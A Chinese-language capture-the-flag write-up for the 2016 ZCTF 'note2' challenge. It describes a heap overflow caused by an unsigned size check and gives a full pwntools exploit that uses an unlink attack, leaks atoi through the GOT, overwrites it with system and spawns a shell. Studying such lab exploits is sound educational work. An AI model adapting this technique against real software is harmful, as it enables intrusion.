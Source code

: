 ```yaml
---
title: 2016 ZCTF note2
date: 2018-10-20 10:00:29
tags: [unlink]
---
```


### 程序信息
note2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=46dca2e49f923813b316f12858e7e0f42e4a82c3, stripped
```
[+] checksec for '/home/pollux/note2/note2'
Canary                        : Yes
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

### 程序功能
通过IDA和运行程序，知道程序有4个功能
- new note：新建一个note
- show note
- edit note：可选为覆盖还是续写
- 释放note

### 程序漏洞
1. 在 new note 时，程序会记录 note 对应的大小，该大小会用于控制读取 note 的内容，但是读取的循环变量 i 是无符号变量，所以比较时都会转换为无符号变量，那么当我们输入 size 为 0 时，glibc 根据其规定，会分配 0x20 个字节，但是程序读取的内容却并不受到限制，故而会产生堆溢出。
```
unsigned __int64 __fastcall sub_4009BD(__int64 a1, __int64 a2, char a3)
{
  char v4; // [rsp+Ch] [rbp-34h]
  char buf; // [rsp+2Fh] [rbp-11h]
  unsigned __int64 i; // [rsp+30h] [rbp-10h]
  ssize_t v7; // [rsp+38h] [rbp-8h]

  v4 = a3;
  for ( i = 0LL; a2 - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == v4 )
      break;
    *(_BYTE *)(i + a1) = buf;
  }
  *(_BYTE *)(a1 + i) = 0;
  return i;
}
```

2. 程序在每次 edit note 时，都会申请 0xa0 大小的内存，但是在 free 之后并没有把指针设置为 NULL。

### 思路
1. 创建三个chunk，第二个chunk的大小设置为0，这样该chunk释放后就被归为fast bin，当我们再次申请0大小的chunk时，该chunk就会被分配出去，因为该chunk位于两个chunk之间，此时就可以利用第一个漏洞，对第三个chunk进行溢出，修改其chunk头，进行free(chunk3)，触发unlink(1)。
2. 利用unlink，通过程序的show note功能获取atoi的地址，进而算出system的地址，然后修改atoi@got指针中的地址为system的地址，获得shell。

### 疑惑
第二个漏洞没有看到利用的地点

###EXP
```
#!/usr/bin/env python
from pwn import *

p = process('./note2')
note2 = ELF('./note2')
libc = ELF('./libc.so.6')
ptr = 0x602120

DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = "debug")

def new_note(length,content):
	p.recvuntil('option--->>')
	p.sendline('1')
	p.recvuntil('Input the length of the note content:(less than 128)')
	p.sendline(str(length))
	p.recvuntil('Input the note content:')
	p.sendline(content)

def show_note(idx):
	p.recvuntil('option--->>')
        p.sendline('2')
        p.recvuntil('Input the id of the note:')
        p.sendline(str(idx))

def edit_note(idx,choice,content):
	p.recvuntil('option--->>')
	p.sendline('3')
	p.recvuntil('Input the id of the note:')
	p.sendline(str(idx))
	p.recvuntil('do you want to overwrite or append?[1.overwrite/2.append]')
	p.sendline(str(choice))
	p.recvuntil('TheNewContents:')
	p.sendline(content)

def delete_note(idx):
	p.recvuntil('option--->>')
	p.sendline('4')
	p.recvuntil('Input the id of the note:')
	p.sendline(str(idx))

def exp():
	p.recvuntil('Input your name:')
	p.sendline('1')
	p.recvuntil('Input your address:')
	p.sendline('1')
	payload = 'a'*8+p64(0x61)+p64(ptr-0x18)+p64(ptr-0x10)
	payload = payload.ljust(0x60,'b')
	payload += p64(0x60)
	new_note(0x80,payload)  #use for unlink
	new_note(0,'d'*16)		#fastbin
	new_note(0x80,'a'*8)

	delete_note(1)		#free chunk to fastbin
	payload = 'a'*16 + p64(0x80+0x20) + p64(0x90) #overwrite chunk2
	new_note(0,payload)
	delete_note(2)		#trigger to unlink chunk0
	payload = 'a'*0x18 + p64(note2.got['atoi'])
	edit_note(0,1,payload)
	show_note(0)
	p.recvuntil('Content is ')
	atoi_addr = p.recvuntil('\n',drop=True).ljust(8,'\00') #str
	atoi_addr = u64(atoi_addr) #int
	log.success('atoi_addr:'+hex(atoi_addr))

	libc_base = atoi_addr - libc.symbols['atoi']
	system_addr = libc_base + libc.symbols['system']
	log.success('system_addr:'+hex(system_addr))

	payload = p64(system_addr)
	edit_note(0,1,payload) #make atoi become system

	p.recvuntil('option--->>')
	p.sendline('/bin/sh;')
	p.interactive()

exp()
```
